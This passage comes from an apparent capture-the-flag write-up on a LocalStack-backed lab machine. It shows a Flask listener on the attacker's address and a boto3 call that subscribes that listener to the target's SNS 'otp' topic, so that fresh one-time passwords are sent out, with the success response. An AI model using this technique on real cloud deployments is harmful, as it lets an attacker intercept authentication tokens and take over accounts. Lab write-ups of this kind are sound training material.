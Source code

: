 It seems that our only path is `SNS` and the `otp` topic.

### Getting the OTP

You might have an idea of the following steps. We can try to subscribe to the `otp` topic and hopefully we can get the fresh `OTP` tokens. Let's check the `boto3` documentation on how to subscribe to a topic [here](https://boto3.amazonaws.com/v1/documentation/api/latest/reference/services/sns.html#SNS.Client.subscribe). It seems that we can give an HTTP endpoint which will be notified if a message arrives to the topic. 

The following simple `Flask` service has an `/otp` endpoint and prints the `body` of the request.

```python
from flask import Flask
from flask import request
from flask import send_file
import base64

app = Flask(__name__)

@app.route('/otp',methods=["POST"])
def dropper():
    print(request.data)
    return "OK", 200

app.run(debug=False, port=4444, host='10.10.14.3')
```

Now we subscribe with the HTTP endpoint of the Flask app (`http://10.10.14.3:4444/otp`) to the `otp` topic.

```python
sns.subscribe(TopicArn='arn:aws:sns:us-east-2:000000000000:otp', Protocol='http', Endpoint='http://10.10.14.3:4444/otp')
```

The response indicates a success:
```json
{"SubscriptionArn": "arn:aws:sns:us-east-2:000000000000:otp:ae056805-fb6c-488d-ae8b-34cbcb3df602",
 "ResponseMetadata": {"RequestId": "c4407779-24a4-56fa-982c-3d927f93a775",
  "HTTPStatusCode": 200,
  "HTTPHeaders": {"date": "Mon, 18 Jul 2022 16:06:05 GMT",
   "server": "Werkzeug/2.1.2 Python/3.8.10",
   "content-type": "text/html; charset=utf-8",
   "access-control-allow-origin": "*",
   "access-control-allow-methods": "HEAD,GET,PUT,POST,DELETE,OPTIONS,PATCH",
   "access-control-allow-headers": "authorization,cache-control,content-length,content-md5,content-type,etag,location,x-amz-acl,x-amz-content-sha256,x-amz-date,x-amz-request-id,x-amz-security-token,x-amz-tagging,x-amz-target,x-amz-user-agent,x-amz-version-id,x-amzn-requestid,x-localstack-target,amz-sdk-invocation-id,amz-sdk-request",
   "access-control-expose-headers": "etag,x-amz-version-id",
   "content-length": "329",
   "vary": "Accept-Encoding"},
  "RetryAttempts": 0}}
```
